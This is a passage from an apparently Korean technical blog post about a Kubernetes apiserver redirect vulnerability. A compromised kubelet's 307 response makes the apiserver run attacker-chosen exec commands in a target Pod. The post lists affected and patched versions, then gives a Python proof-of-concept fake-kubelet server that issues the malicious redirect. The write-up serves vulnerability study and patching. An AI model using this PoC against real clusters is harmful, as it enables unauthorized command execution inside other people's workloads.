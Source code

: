 
- 이러한 response에 대해 적절한 검증이나 처리가 이루어지지 않을 경우, apiserver는 변조된 명령을 대상 Pod에 전달하게 됩니다.

- 단, 해당 취약점은 kubelet 변조 및 인증서 탈취와 같은 사전작업이 이루어져야 하므로 Node의 **root 권한 장악**이 전제됩니다.

- 해당 취약점이 패치된 버전에서는 다음과 같이 **redirect response**에 대응하는 코드가 추가되었습니다.

<div class="img-in-post">
<img src="/images/3/5.png" />
[그림 5] kubernetes v1.18.6 patched code
</div>


#### 취약점 대상 버전

다음과 같은 버전에서 패치되었으며 하위버전은 공격대상에 해당됩니다.

```
v1.16.13 / v1.17.9 / v1.18.6
```

<br />

## POC 소개와 실습

#### POC 소개

```python
import BaseHTTPServer, SimpleHTTPServer
import ssl

class kubeletHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_POST(self):
        print(self.path)
        master_ip = 'xxx.xxx.xxx.xxx'
        target_pod = 'target_pod_name'
        command = 'command_name_else'
        self.send_response(307);
        self.send_header('Location', 'https://{0}:6443/api/v1/namespaces/default/pods/{1}/exec?command={2}%20from%20{3}&stdout=1&stderr=true'.format(master_ip, target_pod, command, target_pod))
        self.end_headers()


httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8080), kubeletHandler)
pem_path = 'copied pem file path'
httpd.socket = ssl.wrap_socket (httpd.socket,
                                certfile=pem_path, server_side=True)
httpd.serve_forever()
```